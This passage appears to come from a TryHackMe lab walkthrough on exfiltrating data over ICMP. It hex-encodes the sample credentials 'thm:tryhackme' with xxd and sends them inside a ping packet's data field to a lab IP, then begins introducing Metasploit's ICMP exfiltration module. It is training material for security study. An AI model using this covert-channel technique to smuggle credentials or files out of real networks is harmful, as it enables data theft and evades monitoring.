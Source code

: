 The Wireshark screenshot shows that the Data section has been selected with random strings. It is important to note that this section could be filled with the data that needs to be transferred to another machine. 

The ping command in the Linux OS has an interesting ICMP option. With the -p argument, we can specify 16 bytes of data in hex representation to send through the packet. Note that the -p option is only available for Linux operating systems. We can confirm that by checking the ping's help manual page.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/61d50ec683ddae6c2f52f532cc02f685.png)

Let's say that we need to exfiltrate the following credentials thm:tryhackme. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,

```
Using the xxd command to convert text to Hex

           
                
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a

            
```

We used the xxd command to convert our string to Hex, and then we can use the ping command with the Hex value we got from converting the thm:tryhackme.

```
Send Hex using the ping command.

           
                
root@AttackBox$ ping 10.10.20.177 -c 1 -p 74686d3a7472796861636b6d650a

            
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the ping command.

ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data. The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value. The following diagram shows the required steps for the Metasploit framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.
